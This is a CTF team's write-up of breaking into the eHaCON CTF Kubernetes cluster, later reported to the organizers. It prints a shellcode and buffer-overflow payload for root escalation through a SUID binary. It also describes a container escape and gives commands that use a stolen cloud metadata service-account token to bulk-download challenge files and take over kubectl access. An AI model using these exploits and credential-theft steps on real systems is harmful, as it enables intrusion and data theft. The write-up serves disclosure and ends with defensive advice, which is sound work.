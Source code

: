 #How we hacked eHaCON CTF Infra

####TL;DR
This is the story of how me [H-mmer#8548](https://h-mmer.xyz) and my teammate **fredd#8512** hacked ourselves into eHaCON CTF kubernetes cluster node, gaining access to all challenge containers hosted in the cluster as well as their service account token which allowed us to download all the challenge files/flags you name it.


##Storytime
All of this happened kind of on an accident while we were doing another challenge challenge which required us to use FTP in passive mode and since the passive mode didn't work on outside networks we figured to go about it by a different way. There was another challenge hosted in a container which was in the same network as the FTP server was running. So being our hacky selves we figured out a way to elevate privileges inside that other container to root so we could install FTP client in there and solve the challenge in a much, much unintended way.

#####Unintended solve
Here's the code for the privilege escalation using the BOF challenge binary which incidentally had root suid which enable all this. The binary itself didn't have any protections including no NX so it enabled us to jump to the env var with shellcode which was intended for the challenge itself.
```sh
export A=$(echo -e '\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xffjqXH\x89\xfe\x0f\x05jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05')
(python3 -c 'import struct,sys;sys.stdout.buffer.write(b"A"*104+struct.pack("<Q",0x7fffffffe841))'; cat) | ./BOF
apt install ftp
```

##### Re-return (the kernel module)
After clearing out other challenges we came back to this and realized that there's some unintended kernel pwn/docker escape challenge. Fredd found out through `capsh` that there's a `cap_sys_module` which allows you to load arbitary kernel modules which would allow us to do anything in the host kernel.
<img src="img/img3.png" height=300px width=700px>

Fredd went on to write a kernel module to exploit that **BUT** that didn't work since there was [additional protection](https://kernel.org/doc/html/latest/admin-guide/LSM/LoadPin.html) methods inside that specific kernel.
![img5](img/img5.png)
![img6](img/img6.png)
![img4](img/img4.png)

##### Gaining access to k8s
 So after that we went on to try a container escape [with this](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/). After running the PoC we were inside the kubernetes node.
 The node was read-only filesystem and we couldn't run `kubectl get pods` straight away.
 Instead what we did was we started digging around the googleclouds computeMetadata and shortly after we found the service account token which we then used to retrieve all the artifacts from their storage.
 ![img2](img/img2.png)
 
 Command we used to download all the artifacts:
 ```sh
 mkdir files; for f in $(cat files.txt); do echo $f; curl -H 'Metadata-Flavor: Google' -H "Authorization: Bearer $TOKEN" $f -o "files/$(echo -ne $f|md5sum|awk '{print $1}').tar.gz"; done
 ```
 After we got all the files we kinda wanted to get the actual access to the kubernetes pods and we figured out a way to do that by finding kubelet config file in `/var/lib/kubelet/kubeconfig`, after some googling found out that `kubectl` stores its config in `~/.kube/config` so by setting `$HOME` directory for the root user in `/dev/shm` which was writable(is by default) and copying the `/var/lib/kubelet/kubeconfig` into our new home directory.
 `mkdir ~/.kube && cp /var/lib/kubelet/kubeconfig ~/.kube/config`
After that we were able to run any kubectl command.
<img src="img/img1.png">

##### Report to organizers
 After reporting our findings to the admins we went to sleep and I got a bunch of messages from the organizers/admins of the CTF thanking us for the responsible report and not breaking stuff. A while after the fixes were done, the original challenge which made all this possible was removed from the CTF since it couldn't be fixed in a way that would leave the binary solvable and also fix the security issues caused by it so the admins made the choice to remove the challenge. At that point I thought everything was fixed, but then I recalled they had another challenge which also included access to a container. Where we could once again gain the service account token through computeMetadata. After reporting that back they managed to remove the service account from the metadata listing so we couldn't get the token anymore and the metadata itself was a bit more restricted.

##### Conclusion
It's not a good idea to run privileged containers in CTF challenges that let's people inside the container also not the best idea to use root SUID binary with bufferoverflow without any protections and make sure your cloud metadata/userdata is not accessible through your challenges.